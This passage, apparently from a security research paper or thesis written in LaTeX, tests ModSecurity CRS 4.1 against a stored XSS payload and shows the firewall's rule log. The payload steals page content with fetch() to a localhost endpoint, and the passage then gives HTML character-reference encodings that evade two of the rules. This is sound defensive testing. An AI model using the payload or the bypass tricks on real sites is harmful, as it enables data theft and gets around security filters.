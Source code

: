 A request containing this payload was blocked by the ModSecurity firewall using \acrshort{crs} 4.1 based on 4 rule triggers:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=secret exfiltration XSS blocked, label={lst:storedxssblocked}]
<payload><a href=javascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a></payload>

<message>"Possible Server Side Request Forgery (SSRF) Attack: Cloud provider metadata URL in Parameter"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "88"] [id "934110"]<fileDetails>
<MatchedData>"http://localhost"</MatchedData>

<message>"NoScript XSS InjectionChecker: Attribute Injection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "225"] [id "941170"]<fileDetails>
<MatchedData>"javascript:[...]"</MatchedData>

<message>"Node-Validator Deny List Keywords"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "252"] [id "941180"]<fileDetails>
<MatchedData>".innerhtml"</MatchedData>

<message>"IE XSS Filters - Attack Detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "323"] [id "941210"]<fileDetails>
<MatchedData>"javascript:v"</MatchedData>
\end{lstlisting}

\acrshort{html} character reference substitution was used to substitute certain characters.
On escaping of the latin character \verb|a| in \verb|j&#97vascript|, the payload:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

evaded the \acrshort{crs} 4.1 rules with ids \verb|941170| and \verb|941210|.
On escaping the \verb|.| in \\ \verb|getElementsByName('name')[0]&#46innerHTML|, the payload:

